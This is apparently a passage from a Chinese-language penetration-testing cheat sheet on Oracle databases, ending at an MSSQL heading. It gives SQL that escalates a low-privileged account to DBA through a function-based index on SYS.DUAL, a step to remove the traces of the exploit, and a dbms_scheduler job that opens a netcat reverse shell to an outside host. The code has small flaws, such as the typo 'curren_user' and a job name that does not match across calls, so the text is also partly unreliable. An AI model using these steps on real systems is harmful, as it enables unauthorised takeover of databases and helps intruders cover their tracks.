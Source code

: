 使用脆弱账号登陆（假设你发现了一个）。

##### 确认一个oracle用户的权限级别

```
SQL> select * from session_privs; 

SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;
```

##### Oracle权限提升和访问DBA

运行netcat，`netcat -nvlp 443` 。

```
SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
```

##### 运行查询语句

```
SQL> Select * from session_privs; 
```

这时你应该拥有一个DBA用户，可以重新运行上面的命令来验证自己是否拥有DBA特权。

##### 移除利用痕迹：

```
drop index exploit_1337; 
```

##### 获取Oracle反弹shell：

```
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
```

### MSSQL

枚举/发现
